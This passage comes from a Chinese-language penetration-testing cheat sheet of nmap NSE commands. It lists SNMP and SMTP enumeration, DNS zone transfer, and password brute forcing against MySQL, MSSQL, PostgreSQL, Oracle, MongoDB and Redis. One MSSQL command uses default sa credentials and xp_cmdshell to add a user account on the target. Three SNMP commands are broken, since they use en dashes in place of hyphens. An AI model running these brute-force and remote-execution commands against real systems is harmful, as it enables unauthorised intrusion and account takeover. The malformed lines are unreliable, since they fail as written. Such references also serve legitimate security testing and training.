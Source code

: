 - SNMP

    ```bash
    nmap –sU –p161 –script=snmp-brute <target ip>   # 查找 snmp 弱口令
    nmap -sU -p161 --script=snmp-netstat <target ip>    # 获取网络端口状态
    nmap –sU –p161 –script=snmp-sysdescr <target ip>    # 获取系统信息
    nmap -sU -p161 --script=snmp-win32-user <target ip> # 获取用户信息
    ```

- SMTP 枚举用户名

    `nmap -p 25 --script smtp-enum-users.nse xxx.xxx.xxx.xxx`

- 截图
    - [Nmap-Tools/NSE/http-screenshot.nse](https://github.com/SpiderLabs/Nmap-Tools/blob/master/NSE/http-screenshot.nse)

- dns 域传送

    `nmap -p 53 --script dns-zone-transfer.nse -v xxx.xxx.xxx.xxx`

### 数据库
- MySQL

    `nmap -p3306 --script mysql-enum xxx.xxx.xxx.xxx`

    mysql 扫描 root 空密码

    `nmap -p 3306 --script mysql-empty-password.nse -v xxx.xxx.xxx.xxx`

    mysql root 弱口令简单爆破

    `nmap -p 3306 --script mysql-brute.nse -v xxx.xxx.xxx.xxx`

- mssql

    扫描 sa 空密码

    `nmap -p 1433 --script ms-sql-empty-password.nse -v xxx.xxx.xxx.xxx/24`

    sa 弱口令爆破

    `nmap -p 1433 --script ms-sql-brute.nse -v xxx.xxx.xxx.xxx/24`

    利用 xp_cmdshell,远程执行系统命令

    `nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd=net user test test add xxx.xxx.xxx.xxx/24`

- postgresql

    爆破

    `nmap -p 5432 --script pgsql-brute -v xxx.xxx.xxx.xxx/24`

- oracle

    爆破

    `nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL  -v xxx.xxx.xxx.xxx/24`

    `nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL -v xxx.xxx.xxx.xxx/24`

- mongdb

    爆破

    `nmap -p 27017  --script mongodb-brute xxx.xxx.xxx.xxx/24`

- redis

    爆破

    `nmap -p 6379 --script redis-brute.nse xxx.xxx.xxx.xxx/24`
